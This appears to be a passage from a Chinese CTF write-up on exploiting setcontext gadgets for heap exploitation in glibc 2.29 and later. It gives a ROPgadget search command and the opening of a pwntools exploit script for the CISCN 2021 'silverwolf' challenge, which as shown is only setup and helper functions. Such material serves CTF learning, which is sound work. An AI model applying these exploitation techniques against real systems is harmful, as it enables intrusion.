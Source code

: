 但是在glibc-2.29以后，setcontext函数中的rdi变成了rdx，就需要新的利用姿势，并且有的libc环境setcontext函数中的gadget的偏移发生了改变，需要跳转到 setcontext+61的地址

#### glibc-2.29以上

需要找到形如`mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]`的gadget（经过测试几乎所有glibc-2.29及以上版本的libc都有类似的gadget）来控制rdx寄存器，并且保证call的地址也是可控的，以至于继续利用setcontext中的gadget

```shell
ROPgadget --binary /home/x1ng/new/glibc-all-in-one/libs/2.29-0ubuntu2_amd64/libc.so.6 | grep "mov rdx, qword ptr \[rdi"
```

#### 例题 CISCN 2021 初赛 silverwolf

将 silverwolf的libc环境换成glibc-2.29进行调试调试，思路与glibc-2.27下一致，覆盖free_hook为`mov rdx, qword ptr [rdi + 0x18]`这样的gadget，再修改一下chunk中的填充布局即可

exp：

```python
#!/usr/bin/python3

from pwn import *
import sys
import time

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='silverwolf'
libc_name='/home/x1ng/new/glibc-all-in-one/libs/2.29-0ubuntu2_amd64/libc.so.6'

libc=ELF(libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('', )

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
	sla('Your choice:',str(num))

```